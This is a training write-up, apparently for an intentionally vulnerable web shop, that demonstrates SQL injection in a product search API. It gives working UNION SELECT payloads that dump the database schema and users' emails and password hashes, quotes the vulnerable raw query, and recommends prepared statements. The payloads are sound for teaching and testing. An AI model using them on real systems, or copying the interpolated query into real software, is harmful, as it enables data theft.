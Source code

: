 # SQL Injection - Search API
Targets OWASP vulnerability [#3: Injection](https://owasp.org/Top10/A03_2021-Injection/)

## How To (Vulnerable Website)
1. Go to vulnerable website

2. Update the path in the location bar from `{websiteURL}/#/` to
   `{websiteURL}/rest/products/search?q=')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--`

3. Verify that it returns the entire DB schema and data in the browser

<img src="../how-to-images/sql-injection-search-dbschema.png" width="700"  alt="sql-injection-login-credentials"/>

4. Update the path in the location bar to 
`{websiteURL}/rest/products/search?q=')) union select id,'2','3',email,password,'6','7','8','9' from users--`

5. The data returned in the browser includes the users id as the value of `price` and their hashed passwords as value of `deluxePrice`

<img src="../how-to-images/sql-injection-search-users-list.png" width="700"  alt="sql-injection-login-credentials"/>

## How To (Secured Website)
1. Go to secured website

2. Update the path in the location bar from `{websiteURL}/#/` to
   `{websiteURL}/rest/products/search?q=')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--`

3. It does not return any data

<img src="../how-to-images/sql-injection-no-data.png" width="288"  alt="sql-injection-login-credentials"/>

4. Update the path in the location bar to
   `{websiteURL}/rest/products/search?q=')) union select id,'2','3',email,password,'6','7','8','9' from users--`

5. It does not return any data

<img src="../how-to-images/sql-injection-no-data.png" width="288"  alt="sql-injection-login-credentials"/>

## Root cause
The root cause of the issue is that raw SQL was being used in the search api (routes/search.ts)
```
`SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') 
AND deletedAt IS NULL) ORDER BY name`)
```

## Mitigations
**Use of Prepared Statements:** Use prepared statements with parameterized queries to prevent SQL injection.
This technique is where the database pre-compiles SQL code and stores the results, separating it from data.


Authored by: Elizabeth Mayer

